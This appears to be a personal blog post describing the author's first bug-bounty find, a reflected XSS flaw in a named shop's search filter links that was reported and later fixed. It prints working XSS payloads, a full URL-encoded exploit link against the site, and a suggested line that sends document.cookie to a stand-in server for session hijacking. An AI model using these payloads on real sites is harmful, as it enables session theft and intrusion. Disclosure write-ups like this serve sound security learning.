```yaml
---
title:  "(First) Reflected XSS"
date:   2016-04-02 
tags: [xss]
---
```


A few weeks ago, I took part in the [Cyber Security Challenge Belgium][CSCBE], an annual CTF hosted by [NVISO][NVISO] intended for Belgian students to test their security knowledge. After talking with some experienced security researchers, they convinced me to start bug hunting. They advised me to start seeking for vulnerabilities on small independent websites instead of hunting large programs on [HackerOne][HackerOne] and [Bugcrowd][Bugcrowd].

After crawling over various websites, I noticed some strange behaviour on the website of [Brouwland][Brouwland]. Users are able to search for products by using the query input form. Since the resulting page includes the query string, I checked whether it was vulnerable to reflected XSS by entering some special characters. 

The query `XSS">` returned the following page:

[![]({{ site.url }}/images/posts/first-xss-1.png)]({{ site.url }}/images/posts/first-xss-1.png)

Surprisingly, the double quote and closing tag were not being escaped. HTML escaping exists in transforming special characters allowing the browser to interpret them as text instead of HTML code, which makes XSS impossible. Input which does not gets escaped? This seemed to easy. If I just close the current tag using `</*>`, I could append my malicious script which will be executed by the browser. For example: 

`test</p><script>alert('XSS')</script>`

Unfortunately, the input starting from the closing tags gets omitted in the returning string. Only `test` was reflected in the returning string. This technique, also known as sanitizing, is another common way to prevent XSS. Thus, these fields are invulnerable to XSS.

After analysing the source code for a second time, I found a more interesting place which reflected my query. The user can filter his search results using the buttons next to the search field. After querying, these buttons contain an href attribute which will execute a filtered search. For example, given input 'XSS':

[![]({{ site.url }}/images/posts/first-xss-2.png)]({{ site.url }}/images/posts/first-xss-2.png)

A quick test reveals the input is neither escaped nor sanitized. Bazinga! Let's just exit the current tag and inject our script using the following query:

`XSS"><script>alert('XSS')</script>`

However, this is detected by Google Chrome's XSS auditor. The auditor identifies malicious request parameters and blocks the response if it believes the code is injected in the response. 

Time to craft another query:

`XSS"></a></li><li><img src="http://www.maliciouslink.com"></li><li><a class="btn btn-default" href="`

Yay, this is accepted! Using URL encoding, we could create the following link:

<div style="overflow-x: auto; overflow-y: hidden; white-space: nowrap; font-style: italic;">www.brouwland.com%2Fen%2Fsearch%3Fq%3DXSS%22%20%3E%3C%2Fa%3E%3C%2Fli%3E%3Cli%3E%3Cimg%20src%3D%22http%3A%2F%2Fwww.maliciouslink.com%22%3E%3C%2Fli%3E%3Cli%3E%3Ca%20class%3D%22btn%20btn-default%22%20href%3D%22</div>

<br>
This results in the following source code:

[![]({{ site.url }}/images/posts/first-xss-3.png)]({{ site.url }}/images/posts/first-xss-3.png)

The page looked like this:

[![]({{ site.url }}/images/posts/first-xss-4.png)]({{ site.url }}/images/posts/first-xss-4.png)

Hence, clicking the link will result in a request to `www.maliciouslink.com`. Although this does not seem malicious, we could replace this link with `www.yourserver.com/cookie?+document.cookie` to send the cookie of an authenticated user to your server and hijack their session. Another possible exploit is to use the onerror attribute in the img tag to execute some arbitrary JavaScript code:

`<img src=x onerror=alert('XSS')>`

There are probably a dozen ways to exploit this vulnerability, however I reported it shortly after I found out the input did not get escaped or sanitized. Their team fixed the bug two days later and thanked me for my findings. Overall, it was a fun and easy first bug. Hopefully this is the start of many other bug discoveries!


[CSCBE]: https://www.cybersecuritychallenge.be/
[NVISO]: https://www.nviso.be/
[HackerOne]: https://hackerone.com/
[Bugcrowd]: https://bugcrowd.com
[Brouwland]: https://www.brouwland.com/en



